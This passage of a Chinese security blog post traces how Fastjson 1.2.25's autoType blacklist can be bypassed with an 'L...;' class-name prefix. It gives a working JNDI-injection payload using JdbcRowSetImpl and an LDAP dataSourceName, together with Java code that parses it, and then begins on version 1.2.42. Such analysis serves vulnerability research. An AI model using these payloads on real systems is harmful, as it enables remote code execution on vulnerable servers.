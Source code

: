 ![image-20220414133117119](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173302903-455547696.png)

确实在1.2.25会使用checkAutoType来校验ref(TemplatesImpl)，我们跟进去发现要调用TypeUtils.loadClass，需要进入if，但是this.autoTypeSupport默认为false，所以进不去，

![image-20220414134134138](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173303624-2133946291.png)

而且在1.2.25版本中默认为flase，我们需要把this.autoTypeSupport设置为true，

    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    

然后到了this.acceptList(白名单)，因为他本身就是空的

![image-20220414135451723](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173304227-90550147.png)

然后就是黑名单denyList，我们看看是什么东西，发现我们com.sun包就在这里和其他的一些利用链类。

![image-20220414135818600](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173304905-1531603062.png)

那我们应该怎么办呢？我们怎办才能进入TypeUtils.loadClass(typeName, this.defaultClassLoader)，大佬们是跟进去TypeUtils.loadClass方法，发现了绕过方法，我们也跟进去。

跟进来发现，一种是@Type字段开头是 ”\[“，另一种“L”开头与“;”结尾，他就会从第二个字符获取我们的className。

![image-20220414140706654](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173306039-1722527225.png)

所以我们就可以构造新的payload,前提掉件就是AutoTypeSupport要为ture

    ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须显示关闭白名单
    {"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://localhost:1389/#EXP", "autoCommit":true}
    
    

    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String exp = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://localhost:1389/#EXP\", \"autoCommit\":true}";
    JSON.parseObject(exp);
    

![image-20220414141444190](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173306951-1258535884.png)

### 2.2、Fastjson:1.2.42

我们继续修改fastjson版本为1.2.42，继续报错autotype不支持，应该是黑名单问题。

![image-20220414141823062](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173308262-731839711.png)

我们调试点依旧打在checkAutoType，继续跟进看看

![image-20220414142124784](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173308997-1501083097.png)

进来发现一堆hash，但是扔然进入到我们的第一红框，把className的"L"和";"去除掉了。

![image-20220414143011787](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173310567-2014519526.png)
